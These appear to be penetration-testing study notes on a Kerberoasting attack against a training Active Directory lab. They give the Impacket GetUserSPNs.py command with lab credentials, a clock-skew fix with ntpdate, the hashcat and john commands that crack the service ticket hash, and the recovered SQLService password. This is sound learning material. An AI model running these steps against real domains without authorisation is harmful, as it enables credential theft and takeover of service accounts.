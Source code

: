 ## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  ```
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```
  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate 
     - `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`
        ```
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```
- Crack the hash with john
  - Alternatively we can use john
  ```
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```

- We get the password
  ```
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
